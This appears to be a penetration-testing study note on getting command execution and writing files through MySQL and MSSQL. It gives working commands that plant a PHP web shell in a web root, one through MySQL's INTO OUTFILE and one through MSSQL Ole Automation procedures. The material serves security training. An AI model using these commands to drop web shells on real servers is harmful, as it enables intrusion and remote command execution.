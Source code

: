 
<mark style="background: #FF5582A6;">There are other methods to get command execution, such as adding [extended stored procedures](https://docs.microsoft.com/en-us/sql/relational-databases/extended-stored-procedures-programming/adding-an-extended-stored-procedure-to-sql-server), [CLR Assemblies](https://docs.microsoft.com/en-us/dotnet/framework/data/adonet/sql/introduction-to-sql-server-clr-integration), [SQL Server Agent Jobs](https://docs.microsoft.com/en-us/sql/ssms/agent/schedule-a-job?view=sql-server-ver15), and [external scripts](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-execute-external-script-transact-sql). However, besides those methods there are also additional functionalities that can be used like the `xp_regwrite` command that is used to elevate privileges by creating new entries in the Windows registry. Nevertheless, those methods are outside the scope of this module.

`MySQL` supports [User Defined Functions](https://dotnettutorials.net/lesson/user-defined-functions-in-mysql/) which allows us to execute C/C++ code as a function within SQL, there's one User Defined Function for command execution in this [GitHub repository](https://github.com/mysqludf/lib_mysqludf_sys). It is not common to encounter a user-defined function like this in a production environment, but we should be aware that we may be able to use it.</mark>

### <span style="color :red "> Write Local Files</span>
Check if can read/write to files

```shell
mysql> show variables like "secure_file_priv";
```
- If empty, the variable has no effect, which is not a secure setting.
- If set to the name of a directory, the server limits import and export operations to work only with files in that directory. The directory must exist; the server does not create it.
- If set to NULL, the server disables import and export operations.

```shell
mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```

- To write files using `MSSQL`, we need to enable [Ole Automation Procedures](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/ole-automation-procedures-server-configuration-option), which requires admin privileges, and then execute some stored procedures to create the file:

```sql
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```

#### MSSQL - Create a File

```sql
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```
